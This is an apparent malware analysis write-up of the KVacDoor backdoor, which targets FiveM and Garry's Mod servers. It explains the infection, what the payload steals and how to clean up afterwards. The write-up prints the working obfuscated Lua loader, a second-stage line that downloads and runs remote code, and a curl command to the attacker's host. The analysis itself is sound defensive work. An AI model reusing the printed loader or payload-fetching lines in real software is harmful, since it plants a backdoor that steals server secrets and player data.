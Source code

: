 ## 1. Introduction
KVacDoor is a really used FiveM and Garry's Mod server manager, boasting features such as 

> **Lua Script**<br>
The scripting system allows you or the KVacDoor staff to quickly run lua code on your servers.

> **Smart Lua**<br>
Inject your lua codes discreetly in one click in one of your addons with the Smart Lua tool.

The panel's website: https://kvacdoor.cz

Turns out that it's also a backdoor, which uses this code, injected into the server-side of a fivem-script to plant itself inside the server.
It is strongly recommended you read cipher's panel breakdown as the infection method kvac uses is almost identical - https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md
```
local Enchanced_Tabs = {
    Ench, Support, Host, Pairs,
    Realease, Callbacks, Source,
    Hosting, Event, PerformHttpRequest,
    assert, server, load, Spawn, materials
}

local random_char = {
    "68", "74", "74", "70", "73", "3a", "2f", "2f", "66", "69", "76", "65", "6d", "2e", "6b", "76",
    "61", "63", "2e", "63", "7a", "2f", "66", "2e", "70", "68", "70", "3f", "6b", "65", "79", "3d",
    "6f", "6a", "6f", "54", "4a", "5a", "57", "65", "50", "52", "6e", "50", "4b", "59", "55", "70", "41", "36", "7a", "34",
}

function str_utf8()
    _empt = ""
    for id,it in pairs(random_char) do
        _empt = _empt..it
    end
    return (_empt:gsub("..", function (cc)
        return string.char(tonumber(cc, 16))
        
    end))
end

Enchanced_Tabs[10](str_utf8(), function (e, d)
    local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
    if (d == nil) then return end
    s()
end)
```
## 2. Code analysis and finding the full payload
As we can see, that is almost the same code that is used by the cipher panel backdoor - 
In short the `random_char` table is a link, which gets interpreted by `str_utf8()`, and then gets run by the last function as an http request on the server, injecting the payload.
Running the code without the last codeblock (which if you look at the `Enchanced_Tabs` table is an http request) in any lua compiler (https://onecompiler.com/lua/42d7ex7dx)
and appending `print(str_utf8)` to it, so we can see what the encoded message is, gives us this link - https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4.

If we cURL the link using the `FXServer/PerformHttpRequest` user-agent, we'd get this:
```
PerformHttpRequest("https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b", function(a, b) if b == nil or b == "" then return end assert(load(b))() end, "POST")
```

You can verify on linux using this command:
`curl https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4 -A "FXServer/PerformHttpRequest"`

As we can see we get more lua code, if we extract the link <br> `https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b`

and translate it to text: <br> `https://fivem.kvac.cz/_/api.php?key=3Rj4lZeyvWJna3PizqOk`

and then cURL *this* link, we will get the payload:

[fivem-payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-payload.lua)

beautifying it a bit we get this

[fivem-beautified payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-beautified-payload.lua)


## 3. Payload explanation
The scripts steals player info like licenses, IPs, identifiers, and also reads the server .cfg, extracting API keys and the rcon password if you have one. <br>
It also overrides the `chatMessage` event and grants the resource the infected script was ran from permissions in the server.cfg - and therefore txAdmin. <br>


## 4. Post-infection measures
It is highly recommended to shutdown the server as soon as the backdoor is installed, as by default it doesn't inject itself outside the server (e.g. the OS) and only in the former 3 locations.
You should reset any API keys and other sensitive information you have put in your server.cfg (like steam API keys, rcon passwords)
Then you should reinstall your chat script, deleting the malicious code from your resource and remove the command access granted in the last lines of the server.cfg.<br>
Unfortunately I can't help if the server's been manually accessed by an adversary after the backdoor was installed, as they could've injected code anywhere and it could be practically impossible to find. Your safest course of action is reinstalling the VPS the server was installed on and using a backup of your server. If you're willing to risk it you can search for suspicious http requests using `grep` or VSCode's Explorer's find but the code can be obfuscated and it's very difficult to find then.
The lesson is - backups are your friend.
